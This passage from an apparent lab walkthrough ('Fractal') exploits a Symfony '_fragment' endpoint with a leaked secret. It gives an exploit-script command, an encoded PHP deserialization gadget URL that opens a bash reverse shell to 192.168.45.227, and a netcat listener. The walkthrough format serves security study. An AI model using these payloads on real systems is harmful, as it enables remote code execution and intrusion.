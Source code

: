 
- `python3 secret_fragment_exploit.py '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--method 2 \
--secret '48a8538e6260789558f0dfe29861c05b' \
--algo 'sha256' \
--internal-url '[http://192.168.192.233/_fragment](http://192.168.192.233/_fragment)' \
--function system \
--parameters "bash -c 'bash -i >& /dev/tcp/192.168.45.227/80 0>&1'"`
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2017.png)
    
- [http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D](http://192.168.192.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A52%253A%2522bash%2B-c%2B%2527bash%2B-i%2B%253E%2526%2B%252Fdev%252Ftcp%252F192.168.45.227%252F80%2B0%253E%25261%2527%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=PC7%2FGws9sawDouQ0AzUn3VpCDiEZhuUcPt01QQOMvx4%3D)
- `rlwrap nc -lvnp 80`
    